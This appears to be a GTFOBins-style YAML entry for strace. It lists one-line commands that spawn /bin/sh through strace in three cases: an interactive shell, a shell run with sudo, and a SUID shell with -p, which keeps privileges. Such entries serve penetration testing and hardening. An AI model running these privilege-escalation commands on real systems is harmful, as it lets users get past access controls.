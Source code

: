 ```yaml
---
functions:
  exec-interactive:
    - code: strace -o /dev/null /bin/sh
  sudo-enabled:
    - code: sudo strace -o /dev/null /bin/sh
  suid-enabled:
    - code: ./strace -o /dev/null /bin/sh -p
---
```

